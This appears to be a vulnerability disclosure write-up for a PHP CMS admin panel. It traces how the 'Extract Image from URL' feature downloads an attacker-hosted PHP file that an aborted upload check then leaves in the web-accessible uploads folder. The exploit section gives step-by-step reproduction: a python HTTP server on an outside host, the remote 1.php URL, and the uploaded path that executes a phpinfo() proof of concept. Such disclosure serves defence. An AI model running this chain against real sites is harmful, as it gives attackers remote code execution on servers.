





### Remote File Download to RCE

In the "Company Profile" section, add an image -> choose "Extract Image from URL" and input the VPS file address for download:
```r
http://124.220.37.173:8999/1.php
```


The controller path is `app\admin\controller\PicManager.php` which calls the `getImg` function:
```php
elseif ($type == "extract") {
    $groupId = 0;
    $url = $param["extractUrl"];
    $result = $this->getImg($url);
    if ($result["code"] == 0) {
        return $result;
    }
    $result = [
        "total" => 0,
        "currentPage" => 0,
        "pageSize" => 0,
        "imgList" => 0,
        "groupId" => $groupId,
        "groupList" => $groupList,
        "type" => $type,
        "handle" => $handle,
        "startDate" => $startDate,
        "endDate" => $endDate,
        "extractedUrl" => $result["file"],
        "id" => $result["id"]
    ];
```

In `getImg`, the `download` method and the `upload` method are called in sequence:
```php
private function getImg($url = "", $filename = "")
{
    $imageUtil = new ImageUtil();
    $fileName = $imageUtil->download($url, $filename); // Full local file path
    if (empty($fileName)) {
        return ['code' => 0, 'msg' => "Failed to fetch file"];
    }
    $file = new File($fileName);
    $result = $imageUtil->upload($file);
    if ($result['code'] == 1) {
        unlink($fileName);
        return $result;
    } else {
        return ['code' => 0, 'msg' => "Upload failed"];
    }
}
```
In `download`, the `url` is fully controllable and will call the `get_url_content` method to download the file:
```php
public function download($url = "", $filename = "", $path = "")
{
    $filePath = config('filesystem.disks.folder') . DIRECTORY_SEPARATOR . date("Ymd");
    if (!empty($path)) {
        $filePath = $path;
    }
    if (!is_dir($filePath)) {
        tp_mkdir($filePath);
    }
    if (empty($filename)) {
        // Upload to local server
        $filename = basename($url);
    }
    $filename = $filePath . DIRECTORY_SEPARATOR . $filename;
    $content = get_url_content($url);
    file_put_contents($filename, $content);
    return $filename;
}
```
In `download`, the filename is obtained from the URL request, and there is no filtering, so a PHP file can be downloaded, and the file is directly written using `file_put_contents`.

As shown in the debugging output, the content of the file is the remote file's content, and the written file is `1.php`.As follows, you can see that content is the content of the remote file, and the file written is the 1.php, and the default write path is 'uploads/date("Ymd")/', you only need to know the upload date



However, when attempting to upload, the WAF checks the file extension. Since it is a PHP file, the WAF blocks it, and it returns `code=0`:



```php
public function upload($file, $groupId = 0, $fileType = "image", $app = 1, $folder_name = "files", $upload_type = 0)
{
    // Record file in the database
    $OriginalName = "";
    if (method_exists($file, "getOriginalName")) { // Check if method exists
        $OriginalName = $file->getOriginalName();
    } else {
        $OriginalName = $file->getFilename();
    }

    // File extension
    if (method_exists($file, "getOriginalExtension")) {
        $imageType = $file->getOriginalExtension();
    } else {
        $imageType = $file->getExtension();
    }

    if (!$this->validationSuffix($imageType)) { // Validate image type
        return ['code' => 0, 'msg' => 'Please upload a ' . $this->attachment['i_suffixs'] . ' format file', "originalName" => $OriginalName];
    }
}
```

Eventually, `code=0` is returned, and `unlink` is bypassed, so the file is not deleted:



### Exploit Attack

Start the VPS with a port service:
```r
python3 -m http.server 8999
```
Place the malicious `1.php` file on the VPS:
```php
<?php
phpinfo();
```

Then, in the "Company Profile" section, add an image -> choose "Extract Image from URL", and input the VPS file address for download:
```r
http://124.220.37.173:8999/1.php
```


Finally, access the path, and the PHP code will be successfully parsed:
```r
/uploads/20250125/1.php
```

